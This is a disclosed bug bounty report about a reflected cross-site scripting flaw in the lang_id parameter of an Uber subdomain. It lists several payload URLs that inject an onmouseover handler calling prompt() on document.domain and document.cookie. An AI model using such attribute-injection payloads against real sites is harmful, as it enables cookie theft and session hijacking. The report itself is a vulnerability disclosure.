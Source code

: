# XSS At "pages.et.uber.com"

## Report Details
- **Report ID**: 156098
- **URL**: https://hackerone.com/reports/156098
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-02T14:23:50.067Z
- **Disclosed**: 2016-08-19T17:32:23.081Z

## Reporter
- **Username**: raghav_bisht
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: uber

## Vulnerability Information
Vulnerable Domain :
-------------------
https://pages.et.uber.com/

Vulnerable Link :
-----------------
https://pages.et.uber.com/icecream/?lang_id=5


Edited Link With Payload :
--------------------------
https://pages.et.uber.com/icecream/?lang_id=5%22%20onmouseover%3dprompt(document.domain)%20bad%3d%22
https://pages.et.uber.com/icecream/?lang_id=5%22%20onmouseover%3dprompt(document.cookie)%20bad%3d%22
https://pages.et.uber.com/icecream/?lang_id=5%22%20onmouseover%3dprompt(9020)%20bad%3d%22


Payload Used :
--------------

" onmouseover%3dprompt(9020) bad%3d"
" onmouseover%3dprompt(document.domain) bad%3d"
" onmouseover%3dprompt(document.cookie) bad%3d"

## Attachments
- xss-1.JPG
- source.JPG
- xss-2.JPG
- xss-3.JPG
- xss-4.JPG
